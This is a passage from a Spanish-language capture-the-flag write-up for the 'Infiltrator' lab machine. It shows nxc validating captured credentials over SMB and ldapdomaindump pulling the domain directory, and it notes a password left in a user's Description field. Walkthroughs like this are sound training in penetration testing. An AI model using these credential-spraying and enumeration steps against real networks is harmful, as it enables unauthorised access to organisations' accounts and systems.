 Verificaremos a través de la herramienta `nxc` de validar las credenciales obtenidas, comprobamos que son válidas para dicho usuario.&#x20;

```bash
❯ nxc smb 10.10.11.31 -u 'l.clark' -p 'WAT?watismypass!'
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass! 
```

## LDAP Enumeration (ldapdomaindump)

Dado que disponemos de credenciales válidas, procederemos a realizar una enumeración de LDAP a través de la herramienta de `ldapdomaindump`.

```bash
❯ ldapdomaindump -u 'infiltrator.htb\l.clark' -p 'WAT?watismypass!' dc01.infiltrator.htb -o ldap
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished

❯ cd ldap

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Al revisar el archivo `domain_users`, verificamos el listado de usuarios del dominio. También notamos que el usuario `k.turner@infiltrator.htb` en su campo _**Description**_ aparece lo que parece ser una contraseña.
